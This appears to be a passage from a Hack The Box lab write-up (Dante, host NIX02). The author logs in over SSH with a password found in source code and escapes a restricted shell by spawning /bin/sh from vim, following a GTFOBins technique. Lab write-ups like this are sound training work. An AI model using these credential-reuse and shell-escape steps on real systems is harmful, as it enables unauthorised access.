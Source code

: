 Here I can find `margaret`'s password : `Welcome1!2@3#`

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ssh margaret@172.16.1.10
margaret@172.16.1.10's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.15.0-46-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

26 updates can be applied immediately.
3 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2025.
Last login: Sat Jan  4 12:01:01 2025 from 172.16.1.100
You are in a limited shell.
Type '?' or 'help' to get the list of allowed commands
margaret:~$ id
*** forbidden command: id
margaret:~$ whoami
*** forbidden command: whoami
```

I got `margaret`'s shell. But it looks somewhat weird.
The commands like `id`, `whoami` are all not working and says "forbidden".
I think we are in a restricted shell.

```bash
margaret:~$ help
cd  clear  exit  help  history  lpath  lsudo  vim
```

Only 8 commands are allowed.

##### Escape from Restricted Shell on NIX02

I found a breakthrough from GTFOBins.
I focused on the last command `vim`.

When we are editing via `vim` command, I can spawn a shell through the following syntax;

```bash
vim

:set shell=/bin/sh
:shell

margaret@DANTE-NIX02:~$ id
uid=1001(margaret) gid=1001(margaret) groups=1001(margaret)
margaret@DANTE-NIX02:~$ whoami
margaret
```
